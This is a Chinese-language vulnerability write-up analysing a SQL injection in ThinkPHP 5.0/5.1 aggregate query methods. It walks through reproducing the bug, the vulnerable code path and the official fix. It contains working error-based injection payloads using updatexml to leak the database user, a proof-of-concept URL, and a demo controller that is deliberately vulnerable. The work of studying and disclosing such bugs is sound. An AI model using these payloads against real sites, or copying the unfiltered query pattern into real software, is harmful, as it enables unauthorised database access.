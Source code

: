 # 5.0.0 <= Thinkphp <= 5.0.21 & 5.1.3<=ThinkPHP5<=5.1.25

### 一、漏洞简介

本篇文章，将分析 ThinkPHP 中存在的 SQL注入 漏洞（所有 Mysql 聚合函数相关方法均存在注入）。本次漏洞存在于所有 Mysql 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句，最终导致 SQL注入漏洞 的产生。

**漏洞概要**

### 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

### 三、复现过程

不同版本 payload 需稍作调整：

 5.0.0~5.0.21 、 5.1.3～5.1.10 ：
 
 
```bash
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```

5.1.11～5.1.25 ：


```bash
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```

**漏洞环境**

通过以下命令获取测试环境代码：


```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo
```

将 composer.json 文件的 require 字段设置成如下：


```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
},
```

然后执行 composer update ，并将 application/index/controller/Index.php 文件代码设置如下：


```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $options = request()->get('options');
        $result = db('users')->max($options);
        var_dump($result);
    }
}
```

在 config/database.php 文件中配置数据库相关信息，并开启 config/app.php 中的 app_debug 和 app_trace 。创建数据库信息如下：


```php
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty');
```

#### poc


```bash
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```

访问链接，即可触发 SQL注入漏洞 。（没开启 app_debug 是无法看到 SQL 报错信息的）

![](images/15893474599180.png)


漏洞分析

首先在官方发布的 5.1.26 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![](images/15893474656024.png)


我们可以查阅其 commit 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![](images/15893474716132.png)


首先，用户可控数据未经过滤，传入 Query 类的 max 方法进行聚合查询语句构造，接着调用本类的 aggregate 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 SQL注入 问题。我们看到 aggregate 方法又调用了 Mysql 类的 aggregate 方法，在该方法中，我们可以明显看到程序将用户可控变量 $field ，经过 parseKey 方法处理后，与 SQL 语句进行了拼接。下面我们就来具体看看 parseKey 方法。

![](images/15893474769922.png)


parseKey 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 parseKey 方法处理后，程序又回到了上图的 $this->value() 方法中，该方法会调用 Builder 类的 select 方法来构造 SQL 语句。这个方法应该说是在分析 ThinkPHP 漏洞时，非常常见的了。其无非就是使用 str_replace 方法，将变量替换到 SQL 语句模板中。这里，我们重点关注 parseField 方法，因为用户可控数据存储在 $options['field'] 变量中并被传入该方法。

![](images/15893474829555.png)


进入 parseField 方法，我们发现用户可控数据只是经过 parseKey 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 SQL 语句模板里，导致 SQL注入漏洞 的发生

![](images/15893474889555.png)


漏洞修复

官方的修复方法是：当匹配到除了 字母、点号、星号 以外的字符时，就抛出异常。

![](images/15893474949227.png)


攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![](images/15893475010598.png)


参考链接

https://github.com/Mochazz/ThinkPHP-Vuln